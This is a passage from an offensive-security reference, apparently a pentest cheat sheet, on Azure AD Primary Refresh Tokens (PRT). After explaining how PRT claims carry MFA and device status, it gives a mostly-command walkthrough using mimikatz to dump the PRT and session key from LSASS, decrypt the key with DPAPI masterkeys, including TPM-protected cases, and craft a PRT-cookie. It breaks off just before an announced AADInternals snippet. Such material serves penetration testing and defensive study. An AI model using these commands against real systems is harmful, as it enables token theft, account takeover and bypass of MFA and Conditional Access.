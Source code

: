 Note that the claims of the `PRT` will be given to any access tokens or refresh
tokens obtained via the `PRT`. The `PRT` will notably contain the eventual MFA
claim and the `PRT`-specific `deviceID` claim. As a result, tokens obtained
via a `PRT` may satisfy `Conditional Access policies` based on device
enrollment status and MFA.

If a device is disabled in AzureAD, the `PRT` associated with the device will
no longer be usable to request tokens.

###### PRT / session key retrieval and PRT-cookie crafting with mimikatz

```bash
# Checks the enrollment state of the system.
#   AzureAdJoined : <YES | NO>
#   EnterpriseJoined : <YES | NO>
#   DomainJoined : <YES | NO>
dsregcmd.exe /status

# Checks whether a TPM is present and enabled.
Get-Tpm

# Extracts the PRT cached by the LSASS CloudAP authentication package.
# The PRT is stored under the "prt" field and the session key in the ProofOfPossessionKey.KeyValue field.
mimikatz > sekurlsa::cloudap

# Decrypts the session key using the DPAPI masterkey to retrieve a derived key.
# If mimikatz is executed directly on the host as "NT AUTHORITY\SYSTEM", the DPAPI masterkey can be automatically retrieved.
# Otherwise the masterkey can be retrieved from the LSASS dump using sekurlsa::dpapi and MUST then be specified with /masterkey:<MASTERKEY>.
mimikatz > token::elevate
mimikatz > dpapi::cloudapkd /keyvalue:<SESSION_KEY> /unprotect

mimikatz > sekurlsa::dpapi
mimikatz > dpapi::cloudapkd /keyvalue:<SESSION_KEY> /masterkey:<MASTERKEY> /unprotect

# If the device has a TPM, the session key will be protected by the TPM ("TPM protected (DPAPI)") and an additional step is required to retrieve a derived key.
# The following commands should only be executed on the target device if the session key is TPM-protected.
mimikatz > privilege::debug
mimikatz > token::elevate
mimikatz > dpapi::cloudapkd /keyvalue:<SESSION_KEY> /unprotect

# A PRT-cookie can be finally crafted using the PRT and the derived key (retrieved with /unprotect).
mimikatz > dpapi::cloudapkd /prt:<PRT> /derivedkey:<DERIVED_KEY>
```

Alternatively to the last `mimikatz` command, the following PowerShell code
snippet, relying on the `AADInternals` module, can be used to generate a
`PRT-cookie` from the `PRT` and clear-text `session key`:
